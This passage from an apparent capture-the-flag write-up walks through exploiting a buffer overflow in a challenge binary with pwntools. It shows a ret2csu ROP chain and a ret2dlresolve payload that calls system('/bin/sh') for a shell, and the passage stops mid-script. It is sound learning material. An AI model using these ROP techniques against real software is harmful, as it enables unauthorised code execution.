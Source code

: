 Pwntools supports [ret2csu](https://docs.pwntools.com/en/stable/rop/rop.html#pwnlib.rop.rop.ROP.ret2csu).

Here is the main section of the script again, with a `ret2csu` ROP payload.

```python
io = start()

rop = ROP(exe)
rop.ret2csu(0, exe.plt['read'], 200)
rop.call(0xdeadbeef)
print(rop.dump())

payload = fit({
    72: rop,
})

log.info(f"payload is {len(payload)} bytes")
input('\n[Press ENTER to send payload]\n')
io.send(payload)

io.interactive()
```

Amazingly, the program crashed with RIP pointing to `0xdeadbeef`! That tiny bit of code was really powerful.

Reality is, we do not have a great known address to return to. We could overwrite `read@plt` and return to it, but we do not have a way to leak a libc address to bypass ASLR.

Looking at the single review for the challenge revealed a hint/spoiler.

> I've solved it neither with ret2dlresolve nor with onegadget; here's my exploit: https://t.co/O1kfJWpVP8

Neat, maybe ret2dlresolve will work, which [pwntools](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html) supports.

#### Troubleshooting
1. I kept getting LIBC errors that made me thing there was an alignment issue, so I added a `ret` instruction to the chain.

2. I had some issues getting the script to work because I didn't understand that I needed to be sending two payloads. The first part of the ret2dlresolve attack sets up a call to read, and writes data into a structure saved in memory.

    1. payload 1 contains a rop chain to set up the data structure
    2. payload 1 returns to read
    3. user send dlresovle struct data
    4. payload 2 returns to `__dl_runtime_resolve`
    5. ***magic***
    6. shell!

The new main section of `exploit.py` looks like this:

```python
ret = 0x0000000000401016

io = start()

rop = ROP(exe)
dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["/bin/sh\0"])
rop.read(0, dlresolve.data_addr)
rop.raw(ret)
rop.ret2dlresolve(dlresolve)
print(rop.dump())

payload = fit({
    72: rop.chain(),
```